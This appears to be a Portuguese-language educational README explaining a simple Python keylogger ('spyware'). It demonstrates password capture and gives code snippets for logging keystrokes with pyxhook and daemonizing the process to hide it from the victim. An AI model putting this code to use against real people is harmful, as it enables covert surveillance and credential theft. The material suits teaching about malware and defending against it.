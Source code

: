 # Spyware

Existem muitas maneiras de espionar a vítima. Nosso **spyware** é representado pelo **keylogger**, um programa simples que monitora as teclas pressionadas no teclado e pode ver tudo o que você digita. Este **keylogger** é implementado no arquivo `keylogger.py`.

#### Demonstração de comportamento

Não precisamos de nenhuma preparação específica antes da execução do keylogger (`./keylogger.py`). Podemos observar que após a execução nada aconteceu e podemos digitar novos comandos, assim como no caso de pressionarmos apenas a tecla `Enter`. Agora você pode fazer em seu sistema o que quiser. Para a demonstração, você pode abrir um navegador e digitar algo como `Passwd` representando sua senha em potencial, assim como faria em qualquer página de login de sua mídia social.

Agora você pode ver que na mesma pasta que nosso **keylogger** está localizado um novo arquivo `activity.log`. Observando o arquivo você pode ver que ele contém todas as teclas que você pressionou em seu teclado após a execução, incluindo sua senha `Passwd`. O invasor pode acessar facilmente esses arquivos e modificar o keylogger para enviá-los em um endereço de e-mail específico ou com uma combinação de diferentes tipos de malware, ele pode obter acesso direto a eles via rede.

```
Key: P
Key: a
Key: s
Key: s
Key: w
Key: d
```

A criação do **keylogger** é um processo muito simples, conforme descrito abaixo e qualquer pessoa pode fazê-lo apenas com um conhecimento básico de programação e compreensão de sistemas operacionais. É por isso que devemos ser sempre cuidadosos quando executamos qualquer arquivo incomum ou não confiável.

#### Como funciona?

 - Em primeiro lugar, configuramos nosso logger. Podemos especificar o arquivo no qual devem ser armazenados os dados, bem como o formato da mensagem.
   ```python
   logging.basicConfig(
       level=logging.DEBUG,
       filename='activity.log',
       format='Key: %(message)s',
   )
   ```
 - Então temos que obter o manipulador do arquivo de log. Explicaremos o porquê no próximo passo.
   ```python
   handler = logging.getLogger().handlers[0].stream
   ```
 - Para tornar nosso spyware mais difícil de ser detectado pela vítima, queremos que ele seja executado em segundo plano como um **daemon**.
   Para saber mais sobre daemons, consulte [o guia de daemons](https://kb.iu.edu/d/aiau). Para este propósito nós
   usará um módulo Python padrão `daemon` que nos permitirá daemonizar nosso **keylogger**.
   Quando o daemon for criado, perderemos conexões com todos os manipuladores de arquivos como `stdout` ou mesmo
   nosso arquivo de log, a menos que especifiquemos que os arquivos devem ser preservados. Por isso obtivemos
   manipulador de arquivo de log na etapa anterior. No contexto do nosso daemon oculto, agora podemos criar o
   keylogger e inicie sua atividade.
   ```python
   # Daemonize the process to hide it from the victim.
   with daemon.DaemonContext(files_preserve=[handler]):
       # Create keylogger.
       keylogger = Keylogger('SimpleSpyware')
       # Start logging activity of the user.
       keylogger.start_logging()
   ```
  - Para obter os _key press events_ podemos usar um módulo python para Linux chamado `pyxhook`. Se nós
    criaria um keylogger para Windows, devemos usar o módulo `pyHook`, mas sua interface é
    muito parecido. Criamos um **gerenciador de ganchos**, que gerenciará o tratamento de eventos e nos permitirá
    definir um retorno de chamada para esses eventos. Callback é no nosso caso uma função que será chamada cada vez que um novo
    evento é obtido (__keydown_callback_). A única coisa que esse método faz é registrar a chave em nosso
    arquivo especificado `activity.log`.
    ```python
    hook_manager = pyxhook.HookManager()
    # Assign callback for handling key strokes.
    hook_manager.KeyDown = self._keydown_callback
    # Hook the keyboard and start logging.
    hook_manager.HookKeyboard()
    hook_manager.start()
    ```

